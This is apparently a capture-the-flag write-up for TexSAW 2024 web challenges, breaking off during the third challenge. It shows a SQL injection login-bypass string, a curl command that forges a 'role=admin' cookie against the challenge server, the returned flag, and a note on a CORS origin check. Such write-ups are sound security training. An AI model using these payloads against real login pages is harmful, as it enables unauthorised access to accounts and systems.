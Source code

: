 ### TexSAW 2024

### Challenges
- Web
  - Login Attempt
  - Crazy Cookie
  - Extreme Security
  - Over 9000
  - Ask, and it shall be given to you

### Challenge 1: Login Attempt

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b56385c4-6a19-48c3-9141-f62b089907d0)

- The challenge is a basic sql injection challenge which requires bypassing a login page.I bypassed the login page with a true sql statement `' or 1=1--+`.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/881b97ae-b2a5-44c1-8cf8-3a073fa2fba9)

- Flag

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/582ef905-850d-421f-afa6-30e09a32c793)

### Challenge 2: Crazy Cookie

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/61d8f77f-ea45-4d9f-8bad-e5aae4d212d2)

- The challenge's objective is to bypass this login page.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/35f367af-e620-4897-8fb7-f0d3a025986a)

- After analyzing the response of the response with curl, I noticed that the cookie contains a key 'role' with the value 'user'.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3970f7f8-e7d5-4462-a10e-7e7e81bc9892)

- I got the flag by setting the `role` value to admin

          ❯ curl http://3.23.56.243:9002/ -H 'Cookie: role=admin; Path=/'
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Flag</title>
            <style>
                body {
                    font-family: Arial, sans-serif;
                    text-align: center;
                    margin: 0;
                    padding: 0;
                    background-color: #f3f3f3;
                }
                .container {
                    max-width: 600px;
                    margin: 50px auto;
                    background-color: #fff;
                    border-radius: 10px;
                    box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                    padding: 20px;
                }
                h1 {
                    color: #4CAF50;
                    margin-top: 0;
                }
                .flag {
                    font-size: 24px;
                    color: #FF5722; /* Orange color */
                    margin-top: 20px;
                    padding: 10px;
                    border: 2px solid #FF5722; /* Orange border */
                    border-radius: 5px;
                }
            </style>
        </head>
        <body>
            <div class="container">
                <h1>Flag!</h1>
                <div class="flag">
                    texsaw{cR@zy_c00Ki3}
                </div>
            </div>
        </body>
        </html>           
        

### Challenge 3: Extreme Security

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1deae3cb-e7b9-4295-b4dc-4e95ff32f7c4)

- In this challenge, the site will only allow requests from this origin "https://texsaw2024.com" will be allowed which means  Cross Origin Resource Sharing configuration pf the site is set to the url above.A request made by a url `http://texsaw2024.com` will be restricted because of the `http://` protocol in the url

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4c908f0f-bacd-4db5-a456-95dc6e03c502)

- 

